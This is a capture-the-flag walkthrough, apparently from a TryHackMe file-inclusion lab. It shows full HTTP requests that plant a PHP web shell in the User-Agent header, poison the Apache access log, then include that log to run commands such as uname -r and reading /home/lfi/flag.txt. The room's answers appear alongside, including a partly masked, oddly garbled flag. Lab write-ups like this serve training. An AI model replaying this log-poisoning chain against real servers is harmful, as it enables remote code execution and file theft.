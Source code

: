 ```
GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi= HTTP/1.1
Host: 10.10.141.166
User-Agent: Mozilla/5.0 <?php system($_GET['lfi']) ?> Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

`No answer needed`

6. Give it a try and run uname -r. What's the output of the command?

```
GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=uname%20-r HTTP/1.1
Host: 10.10.141.166
User-Agent: <?php system($_GET['lfi']) ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

`4.15.0-72-generic`

7. With this knowledge read the flag from the lfi user home directory.

```
GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20/home/lfi/flag.txt HTTP/1.1
Host: 10.10.141.166
User-Agent: Mozilla/5.0 <?php system($_GET['lfi']) ?> Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```

`10.8.106.222 - - [28/Sep/2020:11:02:22 -0700] "GET /lfi/lfi.php?page=/var/log/apache2/access.log&lfi=cat%20/home/lfi/flag.txt HTTP/1.1" 200 1286 "-" "Mozilla/5.0 THM{V0N318*****a352a5c2acfd22251c3a94105b718fea}
 Firefox/68.0"`

`THM{V0N318*****a352a5c2acfd22251c3a94105b718fea12**123:))}`

8. There is way more in LFI exploitation. Here we barely scratched the surface. But I encourage you to do more research. Below is what I consider to be the best resource which covers everything related to LFI from basic to advanced: [A huge collection of information regarding LFI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)

`No answer needed`
